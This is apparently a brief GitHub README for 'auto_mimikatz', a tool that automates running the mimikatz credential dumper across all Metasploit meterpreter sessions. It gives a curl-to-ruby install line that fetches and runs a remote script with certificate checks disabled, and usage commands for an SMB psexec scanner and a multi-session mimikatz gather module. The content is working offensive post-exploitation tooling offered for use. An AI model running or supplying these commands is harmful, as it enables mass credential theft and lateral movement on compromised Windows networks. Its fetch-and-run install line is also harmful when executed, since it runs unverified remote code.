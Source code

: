 Description
=============

This script install necessary scripts and modules for using mimikatz in all meterpreter sessions

Install
=============

ruby -e "$(curl -fsSkL raw.github.com/nxnrt/auto_mimikatz/master/install.rb)"

How to use
=============

load post_auto

use auxiliary/scanner/smb/psexec_scanner

multi_post -m post/windows/gather/mimikatz -s all
